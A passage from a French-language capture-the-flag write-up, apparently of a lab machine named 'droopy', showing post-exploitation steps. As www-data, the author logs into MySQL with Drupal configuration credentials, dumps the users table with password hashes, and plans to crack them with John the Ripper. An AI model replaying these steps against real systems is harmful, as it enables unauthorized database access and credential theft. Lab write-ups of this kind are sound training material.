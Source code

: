 ```console
```

Et hop, l'accès à la base de données nous est offert.

```console
www-data@droopy:/var/www/html/sites/default$ mysql -u drupaluser -p
mysql -u drupaluser -p
Enter password: nimda

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 105
Server version: 5.5.40-0ubuntu0.14.04.1 (Ubuntu)

--snip--

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| drupal             |
+--------------------+
2 rows in set (0.00 sec)

mysql> use drupal;
use drupal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> select uid, name, pass, mail from users;
select uid, name, pass, mail from users;
+-----+-------------+---------------------------------------------------------+------------------------+
| uid | name        | pass                                                    | mail                   |
+-----+-------------+---------------------------------------------------------+------------------------+
|   0 |             |                                                         |                        |
|   1 | drupaladmin | $S$Ds5SgCrqwrbxJY36HldOHA3C9wWH0W3DXMkHSXBb7SsYVfhhlM7s | drupal@knight139.co.uk |
|   2 | test        | $S$D/0DCbCuhwuXDbHMqREIzjKAZ83D8zOSd.gLRIEVvHSc.eVUxvhD | test@test.test         |
+-----+-------------+---------------------------------------------------------+------------------------+
3 rows in set (0.00 sec)
```

Oh, des hashs de mots de passe ! À toi de jouer, [__John The Ripper__](https://www.openwall.com/john/) !
